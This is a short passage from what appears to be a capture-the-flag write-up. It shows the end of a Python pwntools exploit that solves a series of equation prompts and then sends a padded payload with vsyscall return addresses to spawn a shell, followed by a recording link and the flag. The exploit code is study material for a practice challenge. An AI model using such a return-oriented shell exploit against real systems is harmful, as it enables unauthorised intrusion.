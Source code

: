 ```python
        p.recvline_contains("Level")
        eqn = p.clean()

        soln = answer(eqn)
        p.send(str(soln)+"\x00")
        if i % 50 == 0:
            log.info("Please wait... %d/1000" % i)

    pay = str(soln) + "\x00"
    pay = pay.ljust(56, "B")
    pay += p64(ret_address)*3
    log.info("Injected our vsyscall ROPs")

    p.send(pay)
    p.clean()

    p.success("Shell spawned! Enjoy!")
    p.interactive()

if __name__ == "__main__":
    main()
```

Running the exploit:

[![asciicast](https://asciinema.org/a/hkB2nBw48CADpbHaeuvkZF9zO.png)](https://asciinema.org/a/hkB2nBw48CADpbHaeuvkZF9zO)

Flag: **HITB{d989d44665a5a58565e09e7442606506}**
